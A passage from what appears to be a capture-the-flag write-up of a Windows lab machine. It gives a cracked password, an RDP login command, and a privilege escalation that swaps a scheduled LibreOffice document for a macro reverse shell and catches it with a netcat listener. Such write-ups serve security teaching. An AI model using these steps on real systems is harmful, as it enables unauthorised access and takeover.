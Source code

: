 **Result:** `maya:Ilovemail69`

### User Access

Used the cracked credentials to RDP or WinRM into the machine:

```bash
xfreerdp /u:maya /p:Ilovemail69 /v:10.10.11.222
```

Alternatively, SSH if enabled (though Windows typically uses RDP). Retrieved the user flag:

```cmd
type C:\Users\maya\Desktop\user.txt
```

---

## Local Enumeration & User Flag

As `maya` on Windows Server 2022:

- Confirmed environment: `systeminfo` (Build 20348, etc.).
- Enumerated scheduled tasks: `schtasks /query /fo LIST /v`
- Found a task running LibreOffice with macro execution.

Additional enum: Checked `C:\Program Files\hMailServer` for configs, but primary path was the scheduled task.

---

## Privilege Escalation

### LibreOffice Macro Exploit (CVE-2023-6279)

A scheduled task executed LibreOffice with a macro-enabled document, vulnerable to CVE-2023-6279 (arbitrary code execution via macro).

1. Created a malicious .ods file with VBA macro:
   - Used LibreOffice to embed a reverse shell payload (e.g., PowerShell to `nc.exe`).

2. Replaced the scheduled document in `C:\ScheduledTasks\report.ods` (discovered via enum).

3. Triggered the task or waited for schedule: `schtasks /run /tn "Generate Report"`

4. Listener: `nc -lvnp 4444` on attacker machine.

Received a SYSTEM shell. Retrieved root flag:

```cmd
type C:\Users\Administrator\Desktop\root.txt
```

![images (63)](images (63).png)

---

## Summary
